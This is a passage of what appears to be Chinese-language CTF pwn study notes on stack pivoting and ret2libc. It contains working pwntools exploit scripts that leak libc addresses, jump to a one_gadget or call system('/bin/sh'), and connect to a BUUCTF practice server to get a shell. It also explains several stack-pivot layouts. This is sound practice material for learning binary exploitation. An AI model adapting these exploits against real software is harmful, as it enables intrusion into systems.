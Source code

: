 ```python
payload+=b'a'*(0xd0-len(payload))  #0xd0是buf距离rbp的偏移
payload+=p64(stack_addr)+p64(leave_ret)
p.sendafter(">",payload) #栈迁移提的payload永远用send发送
puts_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-526784
one_gadget=libc_base+0x4f2c5
p.sendlineafter(">",str(0xe0))
p.recvuntil('0x')
stack_addr=int(p.recv(12),16)
payload=b'a'*8+p64(one_gadget)
payload+=b'a'*(0xd0-len(payload))
payload+=p64(stack_addr)+p64(leave_ret)
p.sendafter(">",payload)
p.interactive()
```

## 32位

- ret2libc:[pwn-200](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/4%E7%BA%A7/Pwn/pwn-200.md)。

```python
from pwn import *
context.log_level='debug'
write_plt=0x08048370
write_got=0x0804a01c
ret_addr=0x0804847b
payload=b'a'*0x8c+p32(write_plt)+p32(ret_addr)+p32(1)+p32(write_got)+p32(4)
p=remote("node4.buuoj.cn",26320)
p.sendline(payload)
write_addr=u32(p.recv(4))
system_offset=239936
write_offset=869312
bin_sh_offset=0x0015902b
libc_base=write_addr-write_offset
payload=b'a'*0x8c+p32(libc_base+system_offset)+p32(ret_addr)+p32(libc_base+bin_sh_offset)
p.sendline(payload)
p.interactive()
```

- 栈迁移+ret2libc:[[Black Watch 入群题]PWN](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/%5BBlack%20Watch%20%E5%85%A5%E7%BE%A4%E9%A2%98%5DPWN.md)

- 栈迁移:[ciscn_2019_es_2](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/ciscn_2019_es_2.md)

栈迁移分很多种情况。第一种情况：`偏移+栈迁移目标地址-4+leave_ret`，同时目标地址直接写ropchain。第二种情况：`偏移+栈迁移目标地址+leave_ret`，目标地址先根据程序是多少位的填充4或者8个字节，再写ropchain。第三种情况，迁移的目标地址离一些重要地址比较近，比如got表，这时候就要留出一些位置，`偏移+栈迁移目标地址-0xd0+leave_ret`，目标地址先写0xd0+4个偏移再写ropchain；或者`偏移+栈迁移目标地址+leave_ret`，但是目标地址的ropchain前面加上若干个ret，抬高栈。例题：[gyctf_2020_borrowstack](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/gyctf_2020_borrowstack.md)。栈迁移的目标是让rsp/esp到我们控制的地址上去，不是只有leave;ret可以实现这个效果。假如有类似`mov rsp, rbp ; pop rbp ; ret`的gadget，一次就能迁移成功。

- 菜单类栈溢出题+canary绕过+ret2libc
